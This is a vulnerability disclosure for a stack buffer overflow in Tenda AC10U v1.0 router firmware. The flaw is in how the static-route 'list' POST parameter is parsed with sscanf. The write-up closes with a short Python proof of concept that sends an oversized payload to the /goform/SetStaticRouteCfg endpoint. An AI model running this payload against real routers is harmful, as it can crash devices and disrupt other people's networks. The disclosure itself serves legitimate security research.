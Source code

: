 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `list` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![image-20240313145650112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145650112.png)

In the `save_staticroute_data` function, the `buf` (the value of `list`) is passed to `p` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `dst_net, net_mask, net_gw, net_ifname`, it will cause a stack overflow.

![image-20240313145839536](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145839536.png)

![image-20240313145915967](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145915967.png)

![image-20240313145933991](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145933991.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183309062](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183309062.png)